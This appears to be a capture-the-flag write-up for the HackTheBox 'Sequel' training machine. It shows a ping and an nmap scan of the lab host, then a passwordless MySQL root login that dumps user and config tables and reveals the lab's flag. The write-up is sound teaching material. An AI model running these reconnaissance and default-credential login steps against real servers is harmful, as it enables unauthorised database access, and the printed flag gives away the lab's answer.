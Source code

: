 ```yaml
---
title: "HackTheBox - Sequel"
date: 2023-12-27 08:30:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, databases, mysql]
image:
    path: /assets/img/htb/Sequel.png
    alt: Sequel - HackTheBox
---
```


[**Sequel**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Sequel we will learn about **MySQL (My Sctuctured Query Language)**.

## Introduction

- Connect **Sequel** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.95.232

PING 10.129.95.232 (10.129.95.232) 56(84) bytes of data.
64 bytes from 10.129.95.232: icmp_seq=1 ttl=63 time=425 ms
64 bytes from 10.129.95.232: icmp_seq=2 ttl=63 time=257 ms
64 bytes from 10.129.95.232: icmp_seq=3 ttl=63 time=266 ms
64 bytes from 10.129.95.232: icmp_seq=4 ttl=63 time=504 ms

--- 10.129.95.232 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 256.704/362.845/503.874/105.416 ms
```

### Nmap

Scan ports using `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap 10.129.95.232 -sCV -T4

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 08:31 WIB
Nmap scan report for JSN.JaringanKU (10.129.95.232)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
1862/tcp filtered mysql-cm-agent
3306/tcp open     mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsCompression, FoundRows, ConnectWithDatabase, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: '\c[~+VOh@Cq1=~'D]*X\'
|_  Auth Plugin Name: mysql_native_password
3371/tcp filtered satvid-datalnk

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.68 seconds
```

You can see, there are 3 results but the only one that opens is 3306/tcp which is the mysql service.

## Foothold

To run `mysql`, make sure you have the service, if you don't have it, download it. To ask for help use `--help`.

### Mysql

Use `-h` to connect to the host, and `-u` to log in using the username. Here we use the default user, namely `root` and we do not need to enter a password.

```
show databases; -> to display all databases.
use database; -> to use a database.
show tables; -> to display tables in the database.
select * from table; -> to display all the contents of the table.
```

```bash
mysql -h 10.129.95.232 -u root

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,244 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,233 sec)

MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,232 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,589 sec)
```

